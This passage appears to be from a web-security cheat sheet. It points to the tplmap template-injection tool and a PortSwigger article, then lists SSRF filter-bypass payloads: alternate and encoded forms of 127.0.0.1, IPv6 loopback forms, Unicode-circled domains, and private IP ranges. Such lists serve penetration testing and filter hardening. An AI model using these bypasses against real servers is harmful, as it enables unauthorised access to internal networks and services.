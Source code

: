 ## Tool
- https://github.com/epinna/tplmap

---

http://blog.portswigger.net/2015/08/server-side-template-injection.html

# SSRF

## Bypass 127.0.0.1

```
127.0.0.1
localhost
127.0.1
127.1
0.0.0.0
0.0
0

::1
::127.0.0.1
::ffff:127.0.0.1
::1%1

127.12.34.56 (127.0.0.1/8)
127.0.0.1.xip.io

http://2130706433 (decimal)
http://0x7f000001
http://017700000001
http://0x7f.0x0.0x0.0x1
http://0177.0.0.1
http://0177.01.01.01
http://0x7f.1
http://[::]

```

## Bypass using Ⓐ Ⓑ Ⓒ Ⓓ

- `http://ⓀⒶⒾⒷⓇⓄ.ⓉⓌ`
- `http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ`

## 內網IP

- `10.0.0.0/8`
- `172.16.0.0/12`
- `192.168.0.0/16`
